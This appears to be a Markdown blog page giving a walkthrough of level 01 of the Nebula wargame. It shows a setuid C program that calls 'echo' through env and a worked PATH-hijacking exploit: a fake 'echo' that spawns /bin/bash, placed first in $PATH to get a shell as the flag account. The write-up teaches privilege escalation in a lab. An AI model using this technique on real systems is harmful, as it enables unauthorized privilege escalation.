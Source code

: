 ```yaml
---
layout: default
title: "Nebula01"
tags: Nebula
description: "Writing a simple binary to exploit the application via $PATH variable"
---
```



## Level 01

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? To do this level, log in as the `level01` account with the password `level01`. Files for this level can be found in the `/home/flag01` directory.

### Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## Getting the flag

First, let's login via `ssh` and check the binary at `/home/flag01`. 

```
level01@nebula:/home/flag01$ ./flag01 
and now what?
```

From the quick audit of the source code, we can see that `echo` is called by the relative path instead of the absolute one (`echo` instead of `/bin/echo`). We can abuse that and create another binary named `echo` in another location and add it to the `$PATH`, so Linux will prioritize our "malicious" binary instead of the right one. 

Let's create a new folder in `/tmp` and write a simple program there:

```
flag01@nebula:~$ cd /tmp
flag01@nebula:/tmp$ mkdir level01 && cd level01
flag01@nebula:/tmp/level01$ nano echo.c
```

Our `echo` will simply call the `/bin/bash`. It could be anything, really, but I prefer to spawn a shell if I have a chance to do so.

```
#include<stdio.h>

int main()
{
  system("/bin/bash");
}
```

Compile that program with `gcc` 

```
flag01@nebula:/tmp/level01$ gcc echo.c -o echo
```

Let's check the content of the `$PATH` variable:

```
flag01@nebula:/tmp/level01$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

We can add our folder with the binary to the global `$PATH`:

```
flag01@nebula:/tmp/level01$ PATH=/tmp/level01:$PATH

flag01@nebula:/tmp/level01$ echo $PATH
/tmp/level01:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

Alright, now when we will execute the binary in the `/home/flag01` it will call our `echo` and spawn a shell:

```
flag01@nebula:/tmp/level01$ /home/flag01/flag01 
flag01@nebula:/tmp/level01$ getflag 
You have successfully executed getflag on a target account
```

## Other Nebula levels 
- [level00](https://hackish.space/Nebula-level00)
- [level01](https://hackish.space/Nebula-level01)
- [level02](https://hackish.space/Nebula-level02)
- [level03](https://hackish.space/Nebula-level03)
- [level04](https://hackish.space/Nebula-level04)
- [level05](https://hackish.space/Nebula-level05)
- [level06](https://hackish.space/Nebula-level06)
- [level07](https://hackish.space/Nebula-level07)
- [level08](https://hackish.space/Nebula-level08)
- [level09](https://hackish.space/Nebula-level09)
- [level10](https://hackish.space/Nebula-level10)
- [level11](https://hackish.space/Nebula-level11)
- [level12](https://hackish.space/Nebula-level12)
- [level13](https://hackish.space/Nebula-level13)
- [level14](https://hackish.space/Nebula-level14)
- [level15](https://hackish.space/Nebula-level15)
- [level16](https://hackish.space/Nebula-level16)
- [level17](https://hackish.space/Nebula-level17)
- [level18](https://hackish.space/Nebula-level18)
- [level19](https://hackish.space/Nebula-level19)